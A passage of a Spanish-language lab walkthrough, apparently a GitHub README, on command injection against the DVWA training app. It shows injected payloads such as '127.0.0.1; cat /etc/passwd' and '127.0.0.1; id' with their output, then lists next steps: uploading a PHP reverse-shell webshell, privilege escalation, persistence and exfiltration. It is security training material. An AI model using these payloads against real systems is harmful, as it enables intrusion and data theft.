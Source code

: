 
## 📍 Paso 3 - Enumeración del sistema

Ejemplos de comandos útiles:

127.0.0.1; uname -a # Información del sistema

<img width="899" height="268" alt="imagen" src="https://github.com/user-attachments/assets/0d15d2cd-c11a-485f-a386-fe7e5f5bcb97" />


127.0.0.1; id # Información de usuario

<img width="503" height="263" alt="imagen" src="https://github.com/user-attachments/assets/064ae37f-461b-4f48-b7b8-5c6f5ebc20b1" />


127.0.0.1; ls -la /var/www/html

<img width="506" height="357" alt="imagen" src="https://github.com/user-attachments/assets/3a6da1d9-af82-4c64-857d-bc71af379899" />


127.0.0.1; cat /etc/passwd

<img width="669" height="561" alt="imagen" src="https://github.com/user-attachments/assets/7b81b725-1684-4783-be68-36f3b40ae3a2" />


---

## 📍 Paso 4 - Evidencias

📂 **Salida de `whoami`:**

www-data


📂 **Salida de `uname -a`:**

Linux debian 4.9.0-12-amd64 #1 SMP Debian 4.9.210-1 (2020-01-20) x86_64 GNU/Linux


📂 **Archivos en `/var/www/html`:**

index.php
dvwa/


---

## 📍 Paso 5 - Posibles pasos siguientes

- Intentar subir un webshell (*php reverse shell*).
- Intentar escalar privilegios desde el usuario web (`www-data`).
- Persistencia y exfiltración de datos.

## 🐚 1. Subir una webshell

Una vez que puedes ejecutar comandos, puedes intentar subir una webshell para tener una interfaz más cómoda y persistente.
